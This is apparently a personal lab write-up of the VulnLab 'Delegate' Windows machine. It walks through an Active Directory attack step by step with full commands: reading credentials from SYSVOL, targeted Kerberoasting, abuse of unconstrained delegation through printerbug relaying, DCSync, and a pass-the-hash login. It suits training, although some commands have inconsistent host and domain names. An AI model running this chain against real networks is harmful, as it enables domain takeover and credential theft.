 ```yaml
---
title: VulnLab -- Delegate Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,Delegation,Unconstrained Delegaton,Kerberosting,Targeted Kerberosting]
image:
    path: images/delegate-banner.png
---
```

# Delegate

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Delegate** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/delegate-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 47001,49674,49664,464,49686,135,53,593,64282,3268,49666,3389,49675,49669,3269,389,5985,64313,49690 --min-rate=1000 10.10.78.6510.10.78.65
```

![image.png](../images/delegate.png)

Now let’s enumerate the shares

```bash
nxc smb delegate.vl -u 'guest' -p '' --shares
```

![image.png](../images/delegate%201.png)

> Notice that we have read access to the SYSVOL
> 

So let’s connect to the share

```bash

smbclient \\\\delegate.vl\\SYSVOL -U "delegate.vl\guest"
```

![image.png](../images/delegate%202.png)

So let’s go and see the scripts that may be running

```bash
cd delegate.vl/scripts
```

![image.png](../images/delegate%203.png)

As we see there is a file named users.bat so let’s download it

```bash
get users.bat
```

![image.png](../images/delegate%204.png)

Let’s see the users.bat content

```bash
cat users.bat
```

![image.png](../images/delegate%205.png)

> Notice that we found hardcoded credentials 
username: A.Briggs
password: P4ssw0rd1#123
> 

So let’s go and test those creds

```bash
nxc smb delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123'
```

![image.png](../images/delegate%206.png)

As we see the credentials are working

Let’s get a bloodhound

```bash
bloodhound-python -ns 10.10.78.65 -d delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123' -c all --zip
```

![image.png](../images/delegate%207.png)

Now let’s open it and see if we have any permissions 

![image.png](../images/delegate%208.png)

> Notice that we have GenericWrite on another
> 

Now let’s abuse the targeted kerberosting

```bash
python3 targetedKerberoast.py -d delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123' --dc-ip 10.10.78.65
```

![image.png](../images/delegate%209.png)

Now let’s try to crack it’s hash

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/delegate%2010.png)

> As we see we got the password for the user N.Thompson
username: N.Thompson
password: KALEB_2341
> 

Now let’s see the new user permissions

![image.png](../images/delegate%2011.png)

> Notice that the user is in a group named Delegation Admins
> 

Now let’s go and create new computer object

```bash
impacket-addcomputer -computer-name 'remo$' -computer-pass '123456' -dc-ip 10.10.78.65 deledation.vl/A.Briggs:'P4ssw0rd1#123'
```

![image.png](../images/delegate%2012.png)

Now let’s add spn to the machine

```bash
python3 addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/remoone.delegate.vl' -t 'remoone$' -dc-ip 10.10.78.65 dc1.delegate.vl --additional
```

Now let’s add delegation for the machine

```bash
bloodyAD -u 'N.Thompson' -d 'delegate.vl' -p 'KALEB_2341' --host 'dc1.delegate.vl' add uac 'remoone$' -f TRUSTED_FOR_DELEGATION
```

![image.png](../images/delegate%2013.png)

Now let’s open the krbrelayx

```bash
python3 krbrelayx.py -smb2support -hashes :32ED87BDB5FDC5E9CBA88547376818D4
```

![image.png](../images/delegate%2014.png)

Now let’s add dns entry for in the domain

```bash
python3 dnstool.py -u 'delegate.vl\remoone$' -p 123456 -r remoone.delegate.vl -d 10.8.5.233 --action add dc1.delegate.vl -dns-ip 10.10.78.65
```

![image.png](../images/delegate%2015.png)

Now let’s start relaying 

```bash
python printerbug.py -hashes :F2D0C0E145E8323B97CEC00272D7FA01 delegate.vl/evilcomputer\$@dc1.delegate.vl evilcomputer.delegate.vl
```

![image.png](../images/delegate%2016.png)

Now let’s see if we got a ticket

![image.png](../images/delegate%2017.png)

Now let’s go and export the ticket

```bash
export KRB5CCNAME='DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache'
```

![image.png](../images/delegate%2018.png)

now let’s perform DCSync to get administrator hash

```bash
impacket-secretsdump -k -no-pass dc1.delegate.vl
```

![image.png](../images/delegate%2019.png)

Now let’s go and winrm to the machine

```bash
evil-winrm -i delegate.vl -u administrator -H c32198ceab4cc695e65045562aa3ee93
```

![image.png](../images/delegate%2020.png)

Now let’s go and navigate to the administrator desktop and see the root flag

```bash
cd c:\users\administrator\desktop
```

![image.png](../images/delegate%2021.png)

Amazing we got the root flag 🥳

![image.png](../images/delegate%2022.png)

That’s it for the **Delegate** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX